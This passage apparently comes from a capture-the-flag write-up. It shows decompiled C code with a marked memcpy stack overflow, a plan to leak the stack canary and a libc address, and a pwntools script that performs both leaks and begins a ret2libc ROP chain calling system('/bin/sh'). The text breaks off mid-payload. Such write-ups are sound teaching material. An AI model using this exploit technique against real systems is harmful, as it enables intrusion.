 ```c
      --nthread;
    }
    else
    {
      puts("no threads remaining");
    }
  }
  else if ( !strncmp(command, "CHONK ", 5uLL) )
  {
    puts(chonk);
  }
  else
  {
    puts("unknown command");
  }
  return 0LL;
}

void *__fastcall print(Arg *arg)
{
  int count; // [rsp+10h] [rbp-60h]
  int seconds; // [rsp+14h] [rbp-5Ch]
  char message[72]; // [rsp+20h] [rbp-50h] BYREF
  unsigned __int64 canary; // [rsp+68h] [rbp-8h]

  canary = __readfsqword(0x28u);
  memset(message, 0, 64);
  count = arg->count;
  seconds = arg->sleep;
  memcpy(message, arg->src, arg->size); // Overflow
  while ( count-- )
  {
    puts(message);
    sleep(seconds); // Sleep can prevent crashing
  }
  return 0LL;
}
```
My exploitation strategy is to leak the **canary** and a **libc** address from the stack,
and after that, perform a **ret2libc** attack by executing `system("/bin/sh")` to get a shell.

I set a large number for the seconds so the binary doesn't crash when the canary is overwritten.
```py
sl(b"CHUNKS 3")
s(b"CHUNK 100 1 " + b"A" * 73)
ru(b"A" * 73)
canary = u64(b'\0'+r(7))
log.success(f"Canary: {canary:#x}")

s(b"CHUNK 100 1 " + b"A" * 88)
ru(b"A" * 88)
libc_leak = u64(r(6)+b'\0'*2) - 0x9caa4
log.success(f"Libc leak: {libc_leak:#x}")
libc.address = libc_leak

pop_rdi = libc_leak + 0x10f75b
ret     = libc_leak + 0x10f75c
binsh   = next(libc.search(b"/bin/sh\0"))

payload = flat(
    b"A" * 72,
    canary,
    0,
    pop_rdi, binsh,
```